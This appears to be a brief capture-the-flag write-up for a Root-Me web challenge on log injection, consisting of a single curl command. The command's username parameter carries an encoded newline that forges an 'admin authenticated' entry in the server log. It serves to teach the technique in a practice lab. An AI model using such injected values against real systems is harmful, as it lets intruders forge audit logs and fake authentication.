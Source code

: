 # Solution
Try to recreate previous successful login log
```sh
curl http://challenge01.root-me.org/web-serveur/ch14/?username=admin%20authenticated.%0aguest&password=test
```
